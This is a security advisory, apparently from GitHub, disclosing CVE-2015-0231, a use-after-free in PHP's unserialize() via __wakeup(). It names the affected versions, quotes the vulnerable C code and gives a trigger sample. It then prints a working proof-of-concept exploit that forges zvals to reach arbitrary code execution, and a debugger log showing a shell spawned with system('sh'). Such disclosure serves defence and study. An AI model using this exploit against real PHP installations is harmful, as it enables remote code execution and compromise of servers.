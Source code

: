 #Use After Free Vulnerability in unserialize() [CVE-2015-0231]
> Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.3 - Release Date: 2015.3.20
 
A use-after-free vulnerability was discovered in unserialize() with a specially defined object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5 <= 5.3.29  
Affected is PHP 4 <= 4.4.9

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
``` c
static inline int object_common2(UNSERIALIZE_PARAMETER, zend_long elements)
{
	zval retval;
	zval fname;

	if (Z_TYPE_P(rval) != IS_OBJECT) {
		return 0;
	}

	//??? TODO: resize before
	if (!process_nested_data(UNSERIALIZE_PASSTHRU, Z_OBJPROP_P(rval), elements, 1)) {
		return 0;
	}

	ZVAL_DEREF(rval);
	if (Z_OBJCE_P(rval) != PHP_IC_ENTRY &&
		zend_hash_str_exists(&Z_OBJCE_P(rval)->function_table, "__wakeup", sizeof("__wakeup")-1)) {
		ZVAL_STRINGL(&fname, "__wakeup", sizeof("__wakeup") - 1);
		BG(serialize_lock)++;
		call_user_function_ex(CG(function_table), rval, &fname, &retval, 0, 0, 1, NULL);
```

A specially defined __wakeup() magic method lead to various problems.

The simple code:
``` php
<?php
 
class evilClass {

	public $var;

	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

$data = unserialize('a:2:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;R:4;}');

?>
```
 
Object properties assignment or destroy operation leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:4;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\xff\xff\xff\xff";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:9:"evilClass":1:{s:3:"var";a:1:{i:0;i:1;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;a:1:{i:0;R:4;}}}';

$z = unserialize($data2);
intval($z[2]);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

class evilClass {
	
	public $var;
	
	function __wakeup() {
		unset($this->var);
//		$this->var = 'ryat';
	}
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

``` shell
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
